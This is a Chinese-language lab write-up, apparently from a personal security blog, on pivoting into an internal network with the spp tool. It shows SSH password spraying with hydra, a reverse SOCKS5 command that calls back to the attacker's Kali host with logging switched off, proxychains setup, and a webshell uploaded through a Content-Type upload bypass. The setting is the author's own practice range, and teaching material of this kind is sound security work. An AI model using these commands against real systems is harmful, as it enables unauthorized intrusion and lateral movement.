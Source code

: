 ```yaml
---
title: 【socks 5反向代理】spp内网穿透工具的使用
date: 2025-09-11
categories:
  - 内网攻防
image: images/60.webp
---
```

# 拓扑图
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131018.png)
目标机器搭建了一个BEES靶场。
**使用kali上传webshell上线BEES靶场。**
# 靶机展示
**kali攻击机**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131112.png)
**centos 7 跳板机**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131121.png)
**windows server 2012  目标机器**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131131.png)
# 使用场景
当你拿到一台服务器（linux/windows）之后，发现目标机器有两个网卡，这时候可以直接在这台机器上上传一些信息收集工具，收集到另一个网段也有web服务。这时候就可以使用这种方式，使用socks5进行反向代理到内网，在攻击机器（kali）上直接可以访问目标网站，进行渗透测试。
使用简单方便，可以更快的对目标网站进行渗透测试。
# 攻击步骤
1.kali对跳板机进行一次密码喷洒，获取跳板机的ssh登录密码，登录到跳板机后，对靶机进行一次信息收集。（发现靶机有两个网卡，并发现20段的主机20.20.20.129主机开启了80端口。）然后我们需要用kali，进攻20段主机，这时候是不通的，无法进攻。这时候我们就需要设置一个代理spp，监听8888端口。实现socks5代理。
2.上传spp到跳板机上，然后在kali上运行spp，让他作为服务端进行启动。监听8888端口，然后centos的spp反向连接kali的8888端口，然后kali服务端与centos进行协商通讯，1080端口作为socks5代理，在kali上监听，在kali上设置代理，就可以直接与20段进行通讯，对内部网络进行渗透。
# 步骤一
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131228.png)
```
使用hydra对跳板机进行密码喷洒，获取ssh密码，并登录到跳板机上。
使用spp，以服务器的形式开启kali的8888端口进行监听。
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131256.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131300.png)
```
使用spp，以服务器的形式开启kali的8888端口进行监听。
./spp -type server -proto tcp -listen :8888 -proto ricmp -listen 0.0.0.0 -nolog 1 -noprint 1 &
以服务器的形式运行，协议为tcp，监听8888端口，封装到ricmp协议，在本地进行监听 不保存日志，不在控制台打印日志，在后台运行。
同时kali机器监听8888端口。
```
如下图，spp已经成功监听8888端口。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131325.png)
# 步骤二
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131339.png)
可以使kali通过socks5代理直接访问20段的web网站
```
使用scp命令，把spp上传到跳板机上的tmp目录下:
scp spp root@10.10.10.128:/tmp
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131356.png)
```
到跳板机上查看tmp目录，发现已经成功上传
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131409.png)
```
在跳板机上运行spp，开启socks5代理，连接spp服务器kali的spp服务器8888端口上，以1080端口进行通信
./spp -name “16” -type reverse_socks5_client -server 10.10.10.129:8888 -fromaddr :1080 -proxyproto tcp -proto tcp -nolog 1 -noprint 1 &
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131422.png)
```
这时候kali上就会出现监听1080端口
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131432.png)
```
设置socks 5代理
vim /etc/proxychains4.conf
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131446.png)
```
测试一下是否代理成功。
proxychains rdesktop 20.20.20.129
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131458.png)
# 步骤三
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131507.png)
在目标网站中进行渗透测试，上传webshell，拿下目标服务器。上线蚁剑
```
目标服务器有一个web靶场，这是我搭建的一个靶场，该靶场存在一个任意文件上传漏洞，可以通过改Content-Type:image/png，进行上传php文件。
这里上传过程就不展示了，详细靶场情况可以参考，BEES靶场通过教程
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131524.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131528.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131532.png)
获取到上传文件地址之后，就可以使用webshell连接工具直接连接了，这里有很多工具，就不说了，我这里使用的蚁剑进行连接，需要注意的是需要用蚁剑进行socks5代理进行连接上线
我这里用burp进行socks5代理了，就直接代理8080端口了。
```
直接添加上传文件地址，输入密码，即可连接
http://20.20.20.129/upload/img/20240606101139614.php
到这一步我们已经成功的上线目标服务器了。
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131559.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250911131603.png)